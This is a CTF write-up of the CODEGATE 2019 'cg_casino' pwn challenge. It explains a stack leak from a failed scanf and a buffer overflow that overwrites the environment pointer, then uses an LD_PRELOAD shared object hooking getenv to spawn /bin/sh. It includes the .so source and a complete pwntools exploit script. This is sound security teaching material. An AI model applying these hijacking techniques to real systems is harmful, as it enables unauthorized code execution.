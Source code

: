 ```yaml
---
layout: post
title: "[CODEGATE 2019] cg_casino"
comments: true
category: ctf
---
```


## checksec

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```

Partial RELRO.

***

## binary

We can find two vulnerabilities. <br />
First is in lotto(0x4011a7). <br />

<img src="/assets/img/cg_casino/lotto.png" width="500">

In while, it receives int through scanf. <br />
If it is out of range, it prints it same formatter(%u). <br />
If we send input like '@', which couldn't be integer, than scanf doesn't work. <br />
Memory isn't change, and printf writes unintentional value. <br />
After call readvoucher(), we can leak stack's address by above process. <br />
<br />
<img src="/assets/img/cg_casino/readvoucher.png" width="400">

Second vulnerability is in readvoucher(0x401108). <br />
It doesn't check input's size and write it to momory just until '\x0a'. <br />
We can cause bof. <br />
There's no point of leak canary. <br />
So we have to do other things by bof. <br />
Under main's stack, there are argc, argv, env. <br />
If we overwrite env pointer to others, we can induce unexpected behavior. <br />

<img src="/assets/img/cg_casino/oldvoucher.png" width="500">

Also, by using 0x400f09, we can open some file1, make file2, and overwrite file1 to file2. <br />
'/proc/self/environ' shows envirionment variable strings. <br />
So if we overwrite environment variable strings with we want to write to file1, and exec 0x400f09, we can make file1 which we want. <br />

***

## Ex flow

1. Leak stack's address by lotto. <br />
2. From stack's address, we can know main's rbp-0x60, and rbp-0x30, which voucher's buf. <br />
3. Also we can know &(&envp[0]). Distatnce between ebp and &(&envp[0]) is always same. (= 0xf8) <br />
4. From rbp-0x30, overwrite to envp. &envp[0] is change, but end pos is stack's end. It means we just change unit of 0x1000. <br />
5. Through above, we can make our so file. <br />
6. Overwrite &(&envp[0]) to other. There, we can write 'LD_PRELOAD'. <br />
7. Through jackpot, if call system func, child process generates, so new LD_PRELOAD is loaded. <br />
8. In LD_PRELOAD file, we have to hook other func. Here, hook getenv() <br />

***

## .so file

```cpp
#include <sys/syscall.h>

void getenv() {
        execve("/bin/sh", 0, 0);
}

void execve(char *a, char **b, ...) {
        asm volatile("syscall" :: "a"(SYS_execve));
}
```

We have to compile this on ubuntu16.04. <br />
Because our limit size is 0xd8a(envp size).<br />

***

## Ex code

```python
from pwn import *

context.log_level = 'debug'

r = remote('172.17.0.2', 6677)

def put_voucher(voucher):
    r.sendlineafter(b'> ', b'1')
    r.sendlineafter(b': ', voucher)

def merge_voucher(voucher):
    r.sendlineafter(b'> ', b'2')
    r.sendlineafter(b': ', voucher)

def lotto():
    r.sendlineafter(b'> ', b'3')
    r.recvuntil(b'=\n')
    r.recvuntil(b'=\n')
    i = 3
    while i > 0:
        r.sendline(b'@')
        i-=1
    leak_low = int(r.recvuntil(b' :')[:-1])
    r.recvline()
    r.sendline(b'1')
    r.sendline(b'@')
    leak_high = int(r.recvuntil(b' :')[:-1])
    result = (leak_high << 32) + leak_low
    i = 2
    while i > 0:
        r.sendline(b'1')
        i-=1
    r.sendline(b'1')
    return result

def slot_machine():
    r.sendlineafter(b'> ', b'5')
    r.sendafter(b'press any key\n', b'\n')


pause()
put_voucher(b'/home/cg_casino/voucher/my.so')

rbp_addr = lotto() + 0xa0
print(hex(rbp_addr))

buf = b'///////////////proc/self/environ\x00'
buf += b'LD_PRELOAD=/home/cg_casino/voucher/my.so\x00'
buf += b'A' * (0x30 + 0xF8 - len(buf)) + p64(rbp_addr - 0x30 + 0x21)

for i in range(1, 4):
    stack_end_addr = (rbp_addr & 0xfffffffff000) + 0x1000 * i
    print("*")
    print(hex(stack_end_addr))
    environ_addr = stack_end_addr - 0xd8a
    old_voucher = buf + b'\x00' * (environ_addr - (rbp_addr-0x30) - len(buf))
    with open('./my.so', 'rb') as file:
        my_so = file.read()
        old_voucher += my_so
    old_voucher += b'\x00' * (0xd8a - len(my_so)-1)
    merge_voucher(old_voucher)
    slot_machine()
    pause()

r.interactive()
```